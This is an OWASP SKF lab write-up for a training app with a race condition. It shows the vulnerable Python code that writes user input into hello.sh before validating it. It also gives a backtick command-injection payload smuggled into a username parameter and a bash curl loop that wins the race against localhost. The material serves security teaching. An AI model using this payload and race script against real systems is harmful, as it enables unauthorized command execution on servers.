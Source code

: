 # KBID XXX - Race Condition

## Running the app

```
$ sudo docker pull blabla1337/owasp-skf-lab:racecondition
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:racecondition
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Running the app Python3

First, make sure python3 and pip are installed on your host machine. After installation, we go to the folder of the lab we want to practise "i.e /skf-labs/XSS/, /skf-labs/jwt-secret/ " and run the following commands:

```
$ pip3 install -r requirements.txt
```

```
$ python3 <labname>
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

![Docker image and write-up thanks to Contrahack.io !](.gitbook/assets/screen-shot-2019-03-04-at-21.33.32.png)

## Reconnaissance

### Step1

{% hint style="success" %}
Congratulations, you won the race
{% endhint %}

![](.gitbook/assets/race1.png)

All you need to do now is to add your name to the board and get your price.

The application shows an input box, where you can insert your username and go to the next screen, clicking "Make it mine".

The application verifies whether the username contains special characaters such as `"` and `\` and erases them. It also applies strict filtering on the text using the following regex:

`[A-Za-z0-9 ]*`

![](.gitbook/assets/race2.png)

If the username is correct, clicking `Boot` will put us on the score board. Yeah!!

![](.gitbook/assets/race3.png)

### Step 2

This application suffers from a race condition vulnerability, but how can we identify it?

If we look at the code we see that there are 4 functions being used:

1.  `boot_validate(person)`

    the function receives the username in input and executes the following:

    * deletes `"` and `\` from the username
    * opens `hello.sh` file
    * writes a command in it&#x20;
    * closes the file
    * logs some useful info&#x20;
    * checks if the username is in the format `[A-Za-z0-9 ]*`
    * returns the username if the regex succedes
2. `boot_clean()` that removes all the hello files (`hello.sh` and `hello.txt`)
3. `boot_run()` executes the `hello.sh` file
4. `boot_reset()` resets the system to the default settings

### Step 3

If we intercept the traffic generate by the app we see that:

* a GET request is issued to validate the username and call `boot_validate(person)`

```
GET /?person=test&action=validate
```

* clicking boot, will generate the request to execute the `boot_run()` function

```
GET /?action=run HTTP/1.1
```

The logic behind the application is in the function `start()`. If the action is not `validate` or `reset`, the application runs `boot_run()` executing the `hello.sh` file.

We also notice that the function `validate(person)` first inserts the command in the `hello.sh` and then validates the input, returning if it is valid or not.

```python
def boot_validate(person):
    #person = person.replace('"',"").replace("\\","")
    bootfile = open("hello.sh","w")
    bootfile.write("echo \"" + person + "\" > hello.txt")
    bootfile.close()

    os.system("echo 'hello.sh updated -- " + str(datetime.datetime.now()) + "' > log.txt")
    valid = os.popen("sed -n '/^echo \"[A-Za-z0-9 ]*\" > hello.txt$/p' hello.sh").read()
    os.system("echo 'hello.sh cleaned -- " + str(datetime.datetime.now()) + "' >> log.txt")

    return valid
```

{% hint style="success" %}
```
 Everything works fine, so where is the problem?
```
{% endhint %}

The problem is that in this case, we have a very small window to execute the `boot_run()` function after the input is written in `hello.sh` and just before `return valid` is called. Again, there is a possibility to have a race condition only if the following steps are executed in this order:

1. pass our malicious payload to `boot_validate`
2. write the malicious payload in `hello.sh`
3. call `boot_run()`
4. `return valid` is called

## Exploitation

Before we can exploit the race condition, we need a good payload that will execute the command for us. We know that the double quotes and the backslash cannot be used to break the command, but we also know that using '\`' backtick.

So our payload will be:

```
`id`
```

in order to execute the command `id` on the target system.

Now we can exploit this sequence to achieve a command injection. In order to do that we must send requests with high frequency.

Doing it manually is practically impossible, so we create a script that does that for us:

```bash
#!/bin/bash
while true; do 

    curl -i -s -k  -X $'GET' \
        -H $'Host: localhost:5000' -H $'User-Agent: Semen Rozhkov exploiter v1.0' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate ' -H $'Connection: close' -H $'Upgrade-Insecure-Requests: 1' \
        $'http://localhost:5000/?action=run' | grep "Check this out"
done
```

and in the meantime we send the other request from the browser like

```
http://localhost:5000/?person=Default+User`id`&action=validate
```

If we look in the logs we will see:

![](.gitbook/assets/race4.png)

{% hint style="success" %}
Congratulations, you won the race for real now!!!!!!!!
{% endhint %}

## Additional sources

{% embed url="https://www.owasp.org/index.php/Testing_for_Race_Conditions_(OWASP-AT-010)" %}
